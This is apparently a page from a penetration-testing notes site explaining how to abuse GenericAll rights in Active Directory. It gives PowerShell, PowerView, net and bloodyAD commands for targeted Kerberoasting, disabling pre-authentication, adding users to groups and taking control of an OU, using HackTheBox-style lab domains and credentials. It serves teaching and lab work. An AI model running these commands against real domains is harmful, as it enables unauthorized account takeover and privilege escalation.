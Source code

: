 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Information

**Full control** over the target account.

<table><thead><tr><th width="290">Over a User</th><th width="192">Over a Group</th><th>Over an OU</th></tr></thead><tbody><tr><td><a href="forcechangepassword.md">Change the account's password</a></td><td><a href="genericall.md#add-user-to-the-group">Add user to the group</a></td><td><a href="genericall.md#over-an-ou"><code>FullControl</code> on its members</a></td></tr><tr><td><a href="genericall.md#targeted-kerberoasting">Targeted Kerberoasting</a></td><td></td><td></td></tr><tr><td><a href="genericall.md#targeted-asreproasting">Targeted ASREPRoasting</a></td><td></td><td></td></tr></tbody></table>

## Exploitation

### Over a User

<figure><img src="../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

{% tabs %}
{% tab title="PS" %}
```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

An example of the above method can be found [here](../../../boxes/insane/multimaster.md#genericwrite-rights).

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Adding user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# Adding user to the group (using another user's creds)
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endcode %}
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

### Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
